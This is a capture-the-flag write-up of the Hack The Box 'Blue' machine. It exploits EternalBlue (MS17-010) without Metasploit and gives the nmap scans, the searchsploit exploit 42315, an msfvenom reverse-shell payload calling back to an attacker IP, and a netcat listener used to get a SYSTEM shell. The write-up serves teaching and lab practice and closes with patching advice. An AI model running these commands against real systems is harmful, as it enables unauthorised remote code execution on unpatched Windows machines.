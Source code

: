 # Blue Writeup w/o Metasploit

![](../images/max/580/1*eSNoiP18tknq4quq3BqMbQ.png)

## Reconnaissance <a id="9514"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA initial 10.10.10.40
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that nine ports are open:

* **Port 139:** running Microsoft Windows netbiois-ssn
* **Port 445:** running microsoft-ds
* **Ports 135, 49152, 49153, 49154, 49155, 49156 & 49157:** running msrpc

![](../images/max/720/1*aWpgvwmieDHzim-Y9yuWdA.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA full 10.10.10.40
```

We get back the following result. No other ports are open.

![](../images/max/722/1*Dnbg_3iLC7Jhjfppa5ifUA.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA udp 10.10.10.40
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So instead I ran another UDP scan only for the top 1000 ports.

![](../images/max/616/1*SJ5I5l3C1AkXoHQHLBhS6A.png)

## Enumeration <a id="6d58"></a>

As usual, we’ll run the general nmap vulnerability scan scripts to determine if any of the services are vulnerable.

```text
nmap --script vuln -oA vuln 10.10.10.40
```

![](../images/max/720/1*jtetoe9Kw49xPZEG-aOWyw.png)

The box is vulnerable to EternalBlue! And guess what the EternalBlue exploit does? It gives me system access, so this box won’t be too difficult to solve. If you’re not familiar with EternalBlue, it exploits Microsoft’s implementation of the Server Message Block \(SMB\) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

## Exploitation <a id="19ce"></a>

Search for a non Metasploit exploit in the Exploit Database.

```text
searchsploit --id MS17-010
```

![](../images/max/907/1*Kg0NgJlUKTIs3fBA7iCk6w.png)

We’re working with Windows 7 so we’ll use exploit \# 42315. Clone the exploit into the working directory.

```text
searchsploit -m 42315
```

After looking at the source code, we need to do three things:

1. Download mysmb.py since the exploit imports it. The download location is included in the exploit.
2. Use MSFvenom to create a reverse shell payload \(allowed on the OSCP as long as you’re not using meterpreter\).
3. Make changes in the exploit to add the authentication credentials and the reverse shell payload.

First, download the file and rename it to mysmb.py

```text
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
mv 42315.py.1 mysmb.py
```

Second, use MSFvenom to generate a simple executable with a reverse shell payload.

```text
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.6 LPORT=4444 > eternal-blue.exe
```

Third, we need change the exploit to add credentials. In our case we don’t have valid credentials, however, let’s check to see if guest login is allowed.

If you run enum4linux, you can see that guest login is supported.

```text
enum4linux -a 10.10.10.40
```

* **-a**: Do all simple enumeration

We’ll add that to the exploit script.

![](../images/max/341/1*6DCJVdyX8Hg766vfn8B0kA.png)

Similarly, we’ll add the reverse shell executable location and get the script to execute it.

![](../images/max/864/1*qj1K_l6AXdFgm3PRNVi1mw.png)

Now that we’re done all three tasks, setup a listener on your attack machine.

```text
nc -nlvp 4444
```

Then run the exploit.

```text
python 42315.py 10.10.10.40
```

We have a shell with system privileges!

![](../images/max/612/1*rVzn6hzA2Cz6U0tKZQAT4Q.png)

Grab the user flag.

![](../images/max/622/1*F398e8JSIX_w0SYptS0D3Q.png)

Grab the root flag.

![](../images/max/622/1*H9PLqvJQCxvFYeI28tTpfQ.png)

## Lessons Learned <a id="0408"></a>

I keep repeating this in most of my HTB writeup blogs and I’ll say it again, it goes without saying that you should always update your systems **especially** when updates are released for critical vulnerabilities! If the system administrator had installed the MS17–010 security update, I would have had to find another way to exploit this machine.

